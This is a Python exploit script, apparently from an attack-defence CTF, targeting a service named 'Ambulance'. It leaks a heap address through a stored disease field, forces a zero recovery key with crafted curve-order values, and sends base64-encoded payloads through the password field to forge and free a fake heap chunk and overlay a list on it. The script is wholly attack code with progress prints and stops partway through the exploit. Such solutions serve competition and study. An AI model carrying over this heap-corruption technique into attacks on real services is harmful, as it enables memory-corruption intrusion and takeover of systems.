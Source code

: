 ```python
def p64(x: int) -> bytes:
    return struct.pack('<Q', x)


async def attack(io: api.Ambulance, cmd: str) -> None:
    await io.read_banner()

    q = 0xa0fca03a870f6e3fc52aeef0d61f19915ca241a1b2e1cb33cb1434415514a902
    zero_order = 0x507e501d4387b71fe29577786b0f8cc8ae5120d0d970e599e58a1a20aa8a5481

    username = secrets.token_hex(8)
    _, (password, _) = await io.register(username)

    async with api.Ambulance.connect(IP, PORT) as io2:
        await io2.read_banner()
        await io2.login(username, password)
        await io2.update_disease('vzlom', 'vzlom')
        await io2.user_exit()

    _, (_, disease) = await io.print_info()
    address = disease.strip('<>\n').split(' ')[-1]

    leak = int(address, 16)
    print(f'leak @ 0x{leak:x}')

    zero_key = utils.serialize_number(0x1234 * q + zero_order)
    await io.change_recovery_key(password, zero_key)
    print('set public key to zero')

    payload = p64(0x4141414141414141) * 35
    payload_password = utils.b64encode(payload)
    await io.change_recovery_key(payload_password, '')

    payload = b''.join([
        p64(0x4141414141414141) * 30,
        p64(0), p64(0x231),
        p64(0x4242424242424242) * 3,
    ])
    payload_password = utils.b64encode(payload)
    await io.change_recovery_key(payload_password, '')
    print('created buffer with fake chunk')

    buffer = leak + 0xce150
    print(f'buffer @ 0x{buffer:x}')

    chunk = buffer + 8 * 32
    print(f'chunk @ 0x{chunk:x}')

    fake_number = b''.join([
        b'\x08\x02' + b'\x01\x01',
        b'A' * (0x510 - 2),
        p64(0x0000000200000002), p64(chunk),
        p64(0),
        b'B' * (0x2f0 + 2 - 8 * 3),
    ])
    fake_password = utils.b64encode(fake_number * 2)
    await io.change_recovery_key(fake_password, '')
    print('freed fake chunk')

    symptoms = ' '.join(['X'] * 64)
    await io.update_disease('infectious', 'vzlom', symptoms)
    print('created list in fake chunk')

```